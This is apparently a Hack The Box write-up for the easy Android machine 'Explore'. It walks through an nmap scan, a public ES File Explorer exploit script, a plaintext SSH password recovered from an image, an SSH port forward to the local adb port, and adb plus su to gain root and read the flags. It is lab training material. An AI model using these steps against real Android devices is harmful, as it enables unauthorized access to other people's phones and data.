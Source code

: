 # Hackthebox Explore

![explore](/explore.png)

**Operating System** : Android

**Difficulty** : Easy

**Points** : 20

**Creator** : bertolis
# Nmap scan

```bash
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
5555/tcp  filtered freeciv
34399/tcp open     unknown
42135/tcp open     http    ES File Explorer Name Response httpd
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).

```

# ES File Explorer Vuln
Searching for the port, we find that this port is due to a vulnerability in ES File Explorer can be exploited to get a shell.

I used a python script from https://github.com/fs0c131y/ESFileExplorerOpenPortVuln

Looking at the user's pics, we find an image called creds.jpg.

<img src="/cap_creds.jpg" style="width:10%;">

So the potential credentials are :

```bash
kristi:Kr1sT!5h@Rp3xPl0r3!
```

Using this we can login as kristi through ssh.

# Privelege Escalation
Checking for any open local ports which are not open publically, we find that port 5555 is accessible locally.

```bash
:/ $ netstat -tulpn | grep LISTEN
tcp6       0      0 ::ffff:127.0.0.1:40397  :::*                    LISTEN      -
tcp6       0      0 :::2222                 :::*                    LISTEN      3173/net.xnano.android.sshserver
tcp6       0      0 ::ffff:10.10.10.2:41427 :::*                    LISTEN      -
tcp6       0      0 :::5555                 :::*                    LISTEN      -
tcp6       0      0 :::42135                :::*                    LISTEN      -
tcp6       0      0 :::59777                :::*                    LISTEN      -
:/ $
```

Let's reverse tunnel this using ssh using the command

```bash
ssh kristi@10.10.10.247 -p2222 -L 5555:127.0.0.1:5555
```

Searching about port 5555 on android, I find out that this port is open due to adb and we can just connect to it and get root shell using adb.

```bash
$ adb connect localhost:5555                                                        

connected to localhost:5555
$ adb -s emulator-5554 shell
x86_64:/ $ whoami
shell
127|x86_64:/ $ su
127|:/ # whoami
root
```

# Getting user and root flags
We have got root so now we can find and cat both the flags

```bash
:/ # find / 2>/dev/null | grep root.txt
/data/root.txt
:/ # find / 2>/dev/null | grep user.txt
/storage/emulated/0/user.txt
/mnt/runtime/write/emulated/0/user.txt
/mnt/runtime/read/emulated/0/user.txt
/mnt/runtime/default/emulated/0/user.txt
/data/media/0/user.txt
:/ # wc -c /data/root.txt
33 /data/root.txt
:/ # wc -c /storage/emulated/
0/    obb/
:/ # wc -c /storage/emulated/0/user.txt
33 /storage/emulated/0/user.txt
```
